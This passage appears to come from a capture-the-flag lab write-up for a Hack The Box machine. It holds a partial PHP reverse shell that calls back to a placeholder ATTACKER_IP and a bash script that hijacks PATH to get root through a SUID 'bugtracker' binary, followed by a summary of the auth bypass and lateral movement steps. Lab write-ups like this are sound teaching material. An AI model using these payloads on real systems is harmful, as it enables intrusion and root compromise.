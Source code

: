 **4. SUID Binary PATH Manipulation (CWE-426)**
- **Root Cause:** Custom binary executes system commands without absolute paths
- **Risk Level:** High - Local privilege escalation to root
- **Impact:** Complete system compromise

### Exploit Development

**PHP Reverse Shell Payload:**
```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = 'ATTACKER_IP';  // Change to your IP
$port = 1234;         // Change to your listening port
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
// ... [shell code continues]
?>
```

**SUID Exploitation Script:**
```bash
#!/bin/bash
# Create malicious cat binary
echo "#!/bin/bash" > /tmp/cat
echo "/bin/sh" >> /tmp/cat
chmod +x /tmp/cat

# Modify PATH environment
export PATH=/tmp:$PATH

# Trigger privilege escalation
/usr/bin/bugtracker
```

### Proof of Concept

**1. Web Application Compromise:**
- Successfully bypassed authentication through cookie manipulation
- Gained admin access to upload functionality
- Uploaded and executed PHP reverse shell
- Obtained `www-data` shell on target system

**2. Lateral Movement:**
- Discovered hardcoded credentials in `db.php`
- Successfully authenticated as user 'robert'
- Accessed user flag: `HTB{user_flag_here}`

**3. Privilege Escalation:**
- Identified SUID binary owned by root
- Exploited PATH manipulation vulnerability
- Achieved root access and obtained root flag: `HTB{root_flag_here}`

---